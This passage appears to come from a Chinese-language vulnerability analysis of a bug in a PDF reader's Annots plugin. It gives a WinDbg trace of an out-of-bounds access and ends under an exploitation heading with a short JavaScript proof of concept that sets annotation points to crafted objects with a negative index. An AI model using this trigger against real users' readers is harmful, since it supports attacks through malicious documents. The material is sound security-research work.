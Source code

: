 ```
0:000> 
eax=00000000 ebx=07074508 ecx=ffffffd0 edx=00000000 esi=08d7b840 edi=08d615b8	
eip=6e873056 esp=0034bfc0 ebp=0034c008 iopl=0         nv up ei ng nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200282
Annots!PlugInMain+0x15226:
6e873056 83c618          add     esi,18h		//然而当前index乘0x30后得到0xffffffd0，是个错误的大小
0:000> 
eax=00000000 ebx=07074508 ecx=ffffffd0 edx=00000000 esi=08d7b858 edi=08d615b8
eip=6e873059 esp=0034bfc0 ebp=0034c008 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200202
Annots!PlugInMain+0x15229:
6e873059 56              push    esi
0:000> 
eax=00000000 ebx=07074508 ecx=ffffffd0 edx=00000000 esi=08d7b858 edi=08d615b8
eip=6e87305a esp=0034bfbc ebp=0034c008 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200202
Annots!PlugInMain+0x1522a:
6e87305a 03c8            add     ecx,eax	//将array的起始地址加上当前下标对象距离，得到当前下标对象的地址，由于取到错误的大小导致拿到了错误的值
0:000> 
eax=00000000 ebx=07074508 ecx=ffffffd0 edx=00000000 esi=08d7b858 edi=08d615b8
eip=6e87305c esp=0034bfbc ebp=0034c008 iopl=0         nv up ei ng nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00200282
Annots!PlugInMain+0x1522c:
6e87305c e83907ffff      call    Annots!PlugInMain+0x596a (6e86379a)	//调用该函数进行类型转换，传入了错误了对象地址
0:000> 
(f00.92c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=70f6f258 ebx=ffffffd0 ecx=ffffffd0 edx=00000000 esi=00000000 edi=ffffffd0
eip=6e863a2d esp=0034bf5c ebp=0034bf84 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00210202
Annots!PlugInMain+0x5bfd:
6e863a2d 833f01          cmp     dword ptr [edi],1    ds:002b:ffffffd0=????????	//函数内部在获取当前下标对象时出现了访问异常
```

最终在执行类型转换函数时获取当前下标对象的地址：\*this + index * 0x30时，获取到了错误的值0xffffffd0造成了访问异常。

# 漏洞利用

导致崩溃的原因是因为Annotation 对象的 points属性为空，导致获取目标index对象时直接访问了index * 0x30的地址。因此修改POC如下：

```
var _annot = this.addAnnot({page:0, type:"Line"});
var _obj = {};
_obj[2] = 2;
_annot.points = _obj;
_obj[-1] = null;
_annot.points = _obj;
```

下断于resize函数，可以看到此时Array不再为空，大小为0x90：

